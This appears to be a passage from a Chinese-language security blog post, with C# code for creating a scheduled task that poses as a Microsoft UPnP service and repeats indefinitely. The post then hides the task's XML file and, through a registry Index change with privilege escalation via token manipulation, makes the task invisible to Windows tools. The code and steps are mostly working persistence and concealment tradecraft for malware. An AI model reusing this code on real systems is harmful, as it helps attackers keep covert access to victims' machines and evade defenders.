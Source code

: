     //创建计划任务  
    public static void CreateTask(string randomname, string destinationFile, string min)  
    {  
        TaskDefinition td = TaskService.Instance.NewTask();  
        td.RegistrationInfo.Author = "Microsoft"; //创建者  
        td.RegistrationInfo.Description = "UPnPHost Service Settings"; //描述  
        //计划任务运行时间 Min/无限期  
        double time = double.Parse(min);  
        TimeTrigger tt = new TimeTrigger();  
        tt.StartBoundary = DateTime.Now;  
        tt.Repetition.Interval = TimeSpan.FromMinutes(time);  
      
        td.Triggers.Add(tt);  
        td.Actions.Add(destinationFile, null, null);  
        string taskpath = @"\Microsoft\Windows\UPnP\" + randomname;  
        TaskService.Instance.RootFolder.RegisterTaskDefinition(taskpath, definition: td, TaskCreation.CreateOrUpdate, null, null, 0);  
    }

### 隐藏计划任务

#### XML 文件隐藏

文中已经说过：

  1. 1. 在 Windows 10 中，删除 XML 文件，并不影响计划任务的运行，且在 `taskschd.msc` 任务计划程序中，依然存在对应任务；

  2. 2\. 在 Windows 7 与 Windows Server 2008 中，若删除 XML 文件，任务计划程序中的对应任务也会被删除，并且影响计划任务的运行。

为了程序的可用性，这里只能将 XML 文件进行隐藏，而不是删除。

    
    
    //隐藏 %SystemRoot%\System32\Tasks 下计划任务对应的 XML 文件  
    public static void HidXml(string taskpath)  
    {  
        string xml = $@"C:\Windows\System32\Tasks" + taskpath;  
        FileInfo info = new FileInfo(xml);  
        if (info.Exists)  
        {  
            info.Attributes = FileAttributes.Hidden;  
            Console.WriteLine($"[*] Hidden task xml file: \n{xml}");  
        }  
    }

#### Index 修改

通过修改 `HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\Schedule\TaskCache\Tree\{TaskName}` 下对应任务的 Index 值为 0后，利用
`taskschd.msc`、`schtasks.exe` 、API 都查看不到所创建的任务。

首先需要更改注册表对应计划任务项值的高级安全设置中的所有者。在未获取特权模式下，工具运行后提示“拒绝访问”，这显然是权限不足。

![](https://gitee.com/fuli009/images/raw/master/public/20221222112743.png)

可以使用 TokenManipulator 类 ，从而获取特权模式。这就需要在项目中添加一个新的C#类，之后在头部 `using
CosmosKey.Utils;` 。
